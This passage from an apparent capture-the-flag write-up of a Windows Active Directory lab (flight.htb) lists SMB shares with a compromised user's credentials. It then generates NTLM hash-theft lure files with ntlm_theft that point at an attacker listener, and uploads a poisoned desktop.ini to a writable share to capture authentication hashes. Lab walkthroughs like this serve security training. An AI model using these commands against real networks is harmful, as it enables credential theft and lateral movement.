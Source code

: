 Listing available shares reveals that S.Moon has write permissions in one share.

```bash
netexec smb 10.129.228.120 -u "S.Moon" -p '<REDACTED>' --shares
SMB         10.129.228.120  445    G0               [*] Windows 10 / Server 2019 Build 17763 x64 (name:G0) (domain:flight.htb) (signing:True) (SMBv1:False)
SMB         10.129.228.120  445    G0               [+] flight.htb\S.Moon:<REDACTED> 
SMB         10.129.228.120  445    G0               [*] Enumerated shares
SMB         10.129.228.120  445    G0               Share           Permissions     Remark
SMB         10.129.228.120  445    G0               -----           -----------     ------
SMB         10.129.228.120  445    G0               ADMIN$                          Remote Admin
SMB         10.129.228.120  445    G0               C$                              Default share
SMB         10.129.228.120  445    G0               IPC$            READ            Remote IPC
SMB         10.129.228.120  445    G0               NETLOGON        READ            Logon server share 
SMB         10.129.228.120  445    G0               Shared          READ,WRITE      
SMB         10.129.228.120  445    G0               SYSVOL          READ            Logon server share 
SMB         10.129.228.120  445    G0               Users           READ            
SMB         10.129.228.120  445    G0               Web             READ            

```

# Lateral Movement 2

Once again, this is a Windows host so we could try to **poison that share** forcing it to authenticate to us over SMB if there are any automated scripts running as another user.

This [blog post](https://osandamalith.com/2017/03/24/places-of-interest-in-stealing-netntlm-hashes/) does a great job at explaining the different techniques, but I will be using [ntlm_theft](https://github.com/Greenwolf/ntlm_theft) for simplicity. Created all possible files that this tool offers with the next command.

```bash
python3 ntlm_theft.py -g all -f benign -s 10.10.14.112

tree benign         
benign
├── Autorun.inf
├── benign.application
├── benign.asx
├── benign-(externalcell).xlsx
├── benign-(frameset).docx
├── benign-(fulldocx).xml
├── benign.htm
├── benign-(icon).url
...
```

Uploaded a desktop.ini, which extension wasn’t blacklisted as others.

```bash
smbclient -U 'flight.htb\S.Moon%<REDACTED>' //10.129.228.120/Shared -c "put desktop.ini"
putting file desktop.ini as \desktop.ini (0.3 kb/s) (average 0.3 kb/s)
```
